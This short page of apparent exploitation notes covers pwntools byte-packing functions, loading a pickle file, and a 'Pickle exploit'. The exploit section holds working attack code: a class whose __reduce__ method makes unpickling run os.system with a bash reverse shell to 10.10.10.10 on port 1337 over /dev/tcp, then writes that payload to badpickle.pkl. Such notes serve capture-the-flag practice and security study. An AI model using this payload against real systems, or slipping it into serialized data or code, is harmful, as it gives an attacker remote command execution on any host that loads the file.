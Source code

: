 Pwntool Packing
```python
>>> p8(0)
b'\x00'
>>> p32(0xdeadbeef)
b'\xef\xbe\xad\xde'
>>> p32(0xdeadbeef, endian='big')
b'\xde\xad\xbe\xef'
>>> with context.local(endian='big'): p32(0xdeadbeef)
b'\xde\xad\xbe\xef'

Make a frozen packer, which does not change with context.

>>> p=make_packer('all')
>>> p(0xff)
b'\xff'
>>> p(0x1ff)
b'\xff\x01'
>>> with context.local(endian='big'): print(repr(p(0x1ff)))
b'\xff\x01'

```


To un-pickle the data you can: [Ref](https://stackoverflow.com/questions/24906126/how-to-unpack-pkl-file)
```python
import pickle

with open('serialized.pkl', 'rb') as f:
    data = pickle.load(f)
```

Pickle exploit
```python
import pickle, base64, os

class RCE:
    def __reduce__(self):
        cmd = ("/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'")
        return os.system, (cmd,)

if __name__ == "__main__":
    with open('badpickle.pkl', 'wb') as f:
        pickle.dump(RCE(),f)
    # Test with:
    #with open('badpickle.pkl', 'rb') as f:
    #    data = pickle.load(f)
```


# Appendix
